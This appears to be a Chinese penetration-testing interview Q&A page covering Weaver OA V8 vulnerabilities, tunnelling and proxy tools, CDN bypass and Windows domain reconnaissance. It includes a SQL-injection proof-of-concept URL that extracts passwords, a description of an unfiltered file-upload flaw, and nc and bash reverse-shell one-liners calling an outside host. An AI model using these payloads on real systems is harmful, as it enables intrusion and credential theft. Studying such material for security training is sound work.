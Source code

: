 ## OA

**Q：常见的OA系统有哪些？**
A：泛微OA、织信OA、致远OA、蓝凌OA。

**Q：泛微OA的漏洞**
A：SQL注入漏洞：在泛微OA V8中的getdata.jsp文件里，通过gatData方法将数据获取并回显在页面上，而在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法。其中它存在四个参数，分别为空字符串、cmd参数值、request对象以及serverContext对象，通过对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中，从而在前台构造POC：`http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager`访问存在漏洞的网站：`http://x.x.x.x/login/Login.jsp?logintype=1`，其中该特征属于泛微OA v8系统。
文件上传漏洞：漏洞位于: /page/exportImport/uploadOperation.jsp文件中。Jsp流程大概是:判断请求是否是multipart请求,直接上传。重点关注File file=new File(savepath+filename)。Filename参数,是前台可控的,并且没有做任何过滤限制。然后请求 然后请求路径:page/exportImport/fileTransfer/1.jsp


## 隧道与代理

**Q：常见的隧道或代理软件？**
A：CS（设置代理）、msf（添加路由）、frp（反向代理）、ngork（内网穿透）、ew（正反向代理）、nc（弹shell）、proxychains、nginx（反向代理）、proxifier（socks5客户端）、reGeorg、wevely、ssh。

**Q：需要正向代理的情况？**
A：内网中有不能被外部访问但可以访问外部的设备，需要在中间跳板机上设置正向代理。

**Q：需要反向代理的情况？**
A：内网中有不出网的机器，在中间跳板机上设置反向代理，将内网机器映射到公网上。

**Q：如何反弹shell？**
A：
	nc：攻击机（`nc -lvp 4444`）、靶机（`nc 1.1.1.1 4444 -e /bin/bash`）
	bash：攻击机（`nc -lvp 4444`）、靶机（`bash -I >& /dev/tcp/1.1.1.1/4444 0>&1 /bin/bash`）

## CDN

**Q：CDN如何检测？**
A：nslookup、各地ping、修改host绑定域名。

**Q：CDN如何绕过？**
A：CDN配置错误某些未配置CDN、使用邮件服务找邮件源码分析IP地址对比备案、利用子域名、*使用国外或偏远地区无CDN获取真实IP*、*网站指纹*、*让服务器反向连接*、*信息泄露phpinfo*

## 域

**Q：域信任关系？**
A：用于确保一个域的用户可以访问和使用另一个域中的资源安全机制，分为双向可传递父子信任关系、树间双向可传递信任关系、同森林两域间快捷方式信任关系、外部信任关系不可传递单向信任、森林信任不可传递仅存在于森林根域之间。

**Q：域中常见的命令？**
A：
	`net config workstation`查看计算机名、全名、用户名、系统版本、域、登录域
	`nltest /domain_trusts`查看域信任关系
	`net user /domain`或`net time /domain`查看域控主机的用户账户和其它用户列表
	`nslookup`解析域控ip
	`net group /domain`查看分组
	`net group "Domain Admins" /domain`查看域中分组信息
